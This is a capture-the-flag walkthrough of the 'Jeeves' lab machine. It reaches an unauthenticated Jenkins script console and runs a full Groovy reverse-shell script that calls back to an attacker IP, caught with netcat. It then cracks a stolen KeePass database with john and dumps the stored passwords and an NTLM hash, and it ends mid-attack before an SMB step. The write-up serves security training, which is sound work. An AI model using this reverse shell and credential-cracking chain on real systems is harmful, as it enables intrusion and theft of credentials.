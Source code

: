 ```bash
┌──(kali㉿kali)-[~]
└─$ whatweb http://10.10.10.63:50000/ 
http://10.10.10.63:50000/ [404 Not Found] Country[RESERVED][ZZ], HTTPServer[Jetty(9.4.z-SNAPSHOT)], IP[10.10.10.63], Jetty[9.4.z-SNAPSHOT], PoweredBy[Jetty://], Title[Error 404 Not Found]
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ curl http://10.10.10.63:50000                                       
<html>
<head>
<meta http-equiv="Content-Type" content="text/html;charset=utf-8"/>
<title>Error 404 Not Found</title>
</head>
<body><h2>HTTP ERROR 404</h2>
<p>Problem accessing /. Reason:
<pre>    Not Found</pre></p><hr><a href="http://eclipse.org/jetty">Powered by Jetty:// 9.4.z-SNAPSHOT</a><hr/>

</body>
</html>
```

Accessing to the website we find this error, which tells us about the server app running

![[Pasted image 20230815105841.png]]

Googling it we found the CVE-2021-28164 exploit and we try **[this POC](https://www.exploit-db.com/exploits/50438)** but it doesn't work. After dir busting with gobuster we found the url http://10.10.10.63:50000/askjeeves/ where we find the jenkins server (v2.87) for the app running in http://10.10.10.63:80/ application. After checking for some info we found the script console and running the following script we got a reverse shell

```bash
String host="10.10.14.14";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

-------------------------------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 443                                         
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.63] 49677
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami          
whoami
jeeves\kohsuke
```

And we check the Windows Exploit Suggester. We have tried MS16-098 and MS16-135 but they don't work. So lets try to find something useful

```shell
C:\Users\kohsuke\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\kohsuke\Documents

11/03/2017  11:18 PM    <DIR>          .
11/03/2017  11:18 PM    <DIR>          ..
09/18/2017  01:43 PM             2,846 CEH.kdbx
```

In the Documents directory we found a keepass database file, so move it to our attack machine and lets try to crack it with john

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Jeeves-10.10.10.63]
└─$ locate keepass2john 
/usr/sbin/keepass2john

┌──(kali㉿kali)-[~/Documents/Boxes/Jeeves-10.10.10.63]
└─$ /usr/sbin/keepass2john CEH.kdbx > keepass.hash

┌──(kali㉿kali)-[~/Documents/Boxes/Jeeves-10.10.10.63]
└─$ john -w=/usr/share/wordlists/rockyou.txt keepass.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)     
1g 0:00:00:46 DONE (2023-08-15 11:38) 0.02159g/s 1187p/s 1187c/s 1187C/s mwuah..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And we got the password moonshine1. Now with kpcli app we open the database file 

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Jeeves-10.10.10.63]
└─$ kpcli --kdb CEH.kdbx 
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.
kpcli:/> find .
Searching for "." ...
 - 8 matches found and placed into /_found/
Would you like to list them now? [y/N] 
=== Entries ===
0. Backup stuff                                                           
1. Bank of America                                   www.bankofamerica.com
2. DC Recovery PW                                                         
3. EC-Council                               www.eccouncil.org/programs/cer
4. It's a secret                                 localhost:8180/secret.jsp
5. Jenkins admin                                            localhost:8080
6. Keys to the kingdom                                                    
7. Walmart.com                                             www.walmart.com
kpcli:/> show -f 0

 Path: /CEH/
Title: Backup stuff
Uname: ?
 Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
  URL: 
Notes:
kpcli:/> show -f 1

 Path: /CEH/
Title: Bank of America
Uname: Michael321
 Pass: 12345
  URL: https://www.bankofamerica.com
Notes: 

kpcli:/> show -f 2

 Path: /CEH/
Title: DC Recovery PW
Uname: administrator
 Pass: S1TjAtJHKsugh9oC4VZl
  URL: 
Notes: 

kpcli:/> show -f 3

 Path: /CEH/
Title: EC-Council
Uname: hackerman123
 Pass: pwndyouall!
  URL: https://www.eccouncil.org/programs/certified-ethical-hacker-ceh
Notes: Personal login

kpcli:/> show -f 4

 Path: /CEH/
Title: It's a secret
Uname: admin
 Pass: F7WhTrSFDKB6sxHU1cUn
  URL: http://localhost:8180/secret.jsp
Notes: 

kpcli:/> show -f 5

 Path: /CEH/
Title: Jenkins admin
Uname: admin
 Pass: 
  URL: http://localhost:8080
Notes: We don't even need creds! Unhackable! 

kpcli:/> show -f 6

 Path: /CEH/
Title: Keys to the kingdom
Uname: bob
 Pass: lCEUnYPjNfIuPZSzOySA
  URL: 
Notes: 

kpcli:/> show -f 7

 Path: /CEH/
Title: Walmart.com
Uname: anonymous
 Pass: Password
  URL: http://www.walmart.com
Notes: Getting my shopping on
```

We collect the password into a list

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Jeeves-10.10.10.63]
└─$ cat passwords                        
12345
S1TjAtJHKsugh9oC4VZl
pwndyouall!
F7WhTrSFDKB6sxHU1cUn
lCEUnYPjNfIuPZSzOySA
Password
```

And we got a hash `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`

Now lets try in SMB